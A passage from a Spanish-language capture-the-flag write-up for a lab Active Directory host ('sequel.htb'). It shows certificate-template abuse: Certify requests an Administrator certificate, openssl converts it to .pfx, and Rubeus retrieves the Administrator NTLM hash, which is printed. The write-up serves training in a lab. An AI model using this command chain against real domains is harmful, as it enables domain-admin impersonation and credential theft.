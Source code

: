 ```js
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
```


- Como vemos, hay una template vulnerable; la usamos para obtener un certificado y su respectiva key privada con la herramienta `Certify`, pasándole como argumento el Host del certificado, el nombre de la template vulnerable y el nombre del usuario por el que nos queremos hacer pasar:


```bash
C:\Users\Ryan.Cooper\Documents> ./Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```

```js
[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

- Obtenemos el certificado y la key privada del usuario `"Aministrator"`; ahora realizamos los pasos que nos indica la misma herramienta para poder crear un archivo válido de certificado `".pfx"` el cual usaremos posteriormente para obtener el hash del usuario "Administrator"

- Guardamos el certificado y la key privada en un archivo `"cert.pem"`

- Ejecutamos el siguiente comando para generar el archivo cert.pfx:

```bash
$openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

- Creamos una contraseña para proteger el archivo .pfx y la confirmamos (en este caso "hola123").

- Con este certificado ya creado, lo transferimos a la máquina víctima y también el binario de [Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe) el cual usaremos para obtener el hash `NTLM` de "Administrator".

- En el sistema víctima, con el archivo .pfx y el binario de Rubeus descargados, ejecutamos el siguiente comando para generar las credenciales:

```bash
C:./Rubeus asktgt /user:Administrator /certificate:cert.pfx /password:hola123 /getcredentials
```

```js
[*] Getting credentials using U2U
  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : A52F78E4C751E5F5E17E1E9F3E58F4EE
```
